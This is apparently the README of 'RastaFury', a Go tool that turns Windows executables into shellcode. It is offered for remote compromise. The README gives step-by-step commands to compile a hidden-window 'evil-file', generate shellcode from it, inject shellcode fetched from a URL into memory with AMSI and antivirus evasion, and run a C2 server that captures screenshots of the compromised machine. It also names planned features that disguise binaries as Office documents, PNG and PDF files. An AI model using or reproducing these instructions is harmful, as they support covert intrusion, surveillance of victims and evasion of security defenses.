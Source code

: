 # RastaFury

a tool for create ShellCodes from PE, based on go-donut([Binject](https://github.com/Binject/go-donut)); updated, improved and with new functionalities.
This tool works on Windows, Linux and MacOs, only need to change you compilation technique.

## Treefile
```powershell
C:.
│   .gitignore
│   go.mod
│   go.sum
│   LICENSE
│   main.go
│   README.md
│
│
├───c2server
│       helpers.go
│       router.go
│       server.go
│
├───cmd
│       c2server.go
│       injector.go
│       root.go
│       ShellCodeGenerator.go
│
└───donut
        donut.go
        donut_crypt.go
        donut_crypto_test.go
        loader_exe_x64.go
        loader_exe_x86.go
        types.go
        utils.go
```

## USAGE
**Note:** *this tool is intended to work in conjunction with the [ShellCodeInjector](https://github.com/RachidMoysePolania/ShellCodeInjector) library, in which you can find the default payload to be used with the *C2SERVER* command, which will be loaded into memory and executed by syscalls using kernel32.dll from windows (applying *AMSI* and *AV* evasion techniques).*
1. need to compile the payload (using default payload would be in this way): `go build -ldflags -H=windowsgui main.go` **Note:** *before compile the evil-file you need update the url and port to match with your c2server url and port.*
2. to generate a shellcode from a PE file use the following command: `shellcodegenerator -i <evil-file-path> -o <output-file-name>(by default is defaultc2client.bin)` this command is intended to use the default payload provided by ShellCodeInjector library at [here](https://github.com/RachidMoysePolania/ShellCodeInjector/blob/main/payload/main.go)
3. use the injector command, only need to provide the url (the complete url of where the shellcode to download is located): `injector -u "http://127.0.0.1:8000/defaultc2client.bin` and at the same time a new window must be opened, in order to listen to the c2 server.
4. listening to the c2server: `c2server -p <port-to-listen>(by default 8080)`

**Note:** *where the compiled shellcodegenerator binary is stored, screenshots of the compromised machine will be saved every interaction.*

## Example video

[!PocVideo](/media/PoC.mkv)

**Note:** *The next features are camuflage for our compiled binaries (word, excel, png, pdf, etc), graphic version and process injection* 
